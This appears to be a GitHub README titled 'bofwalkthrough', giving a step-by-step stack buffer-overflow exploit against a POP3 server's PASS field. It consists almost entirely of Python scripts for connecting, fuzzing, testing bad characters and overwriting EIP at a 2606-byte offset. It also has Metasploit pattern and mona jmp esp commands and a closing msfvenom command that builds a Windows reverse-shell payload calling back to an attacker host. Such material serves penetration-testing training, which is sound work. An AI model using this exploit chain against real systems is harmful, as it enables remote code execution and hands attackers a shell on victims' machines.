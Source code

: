 # bofwalkthrough
CONNECT  
#!/usr/bin/python  

import socket  
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
try:  
         print "\nSending evil buffer..."  
         s.connect(('IP',PORT))            # connect to IP, port  
         data = s.recv(1024)                     # receive banner  
         print data                              # print banner  
         s.send('USER test' +'\r\n')             # send username "test"  
         data = s.recv(1024)                     # receive reply  
         print data                              # print reply  
         s.send('PASS test\r\n')                 # send password "test"  
         data = s.recv(1024)                     # receive reply  
         print data                              # print reply  
         s.close()                               # close socket  
         print "\nDone!"  
except:  
    print "Could not connect to POP3!"  

FUZZ  


#!/usr/bin/python  
import socket  

#Create an array of buffers, from 1 to 5900 with increments of 200.  
buffer = ["A"]  
counter = 100  
while len(buffer) <= 30:  
    buffer.append("A"*counter)  
    counter=counter+200  

for string in buffer:  
    print "Fuzzing PASS with %s bytes" % len(string)  
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
    connect=s.connect(('IP',PORT))  
    s.recv(1024)  
    s.send('USER test\r\n')  
    s.recv(1024)  
    s.send('PASS ' + string + '\r\n')  
    s.send('QUIT\r\n')  
    s.close()  

Find EIP  
 /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700   

/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2700 -q    

Badchars  

#!/usr/bin/python  
import socket  

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  

badchars = (  
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"  
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"  
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"  
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"  
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"  
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"  
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"  
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"  
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"  
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"  
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"  
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"  
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"  
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"  
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"  
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )  

buffer ="A"*2606 + "B"*4 + badchars  

try:  
    print "\nSending evil buffer..."  
    s.connect(('IP',PORT))  
    data = s.recv(1024)  
    s.send('USER username' +'\r\n')  
    data = s.recv(1024)  
    s.send('PASS ' + buffer + '\r\n')  
    s.close()  
    print "\nDone!"  
except:  
    print "Could not connect to POP3!"  

!mona modules  

jmp esp  

push esp  
retn  

ruby /usr/share/metasploit-framework/tools/nasm_shell.rb  
add eax,12  
jmp eax  

!mona find -s "\xff\xe4" -m slmfc.dll (mona find jmp esp in .dll file)  


#!/usr/bin/python  

import socket  
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  

buf = "A" * 2606 + "\x5f\x4a\x35\x8f" + "C" *(3500 - 2606 - 4)  

try:  
    print "\nSending evil buffer..."  
    s.connect(('IP',PORT))  
    data = s.recv(1024)  
    print data  
    s.send('USER test' +'\r\n')  
    data = s.recv(1024)  
    print data  
    s.send('PASS ' + buf + '\r\n')  
    data = s.recv(1024)  
    print data  
    s.close()  
    print "\nDone!"  

except:  
    print "Could not connect to X!"  

 msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"  
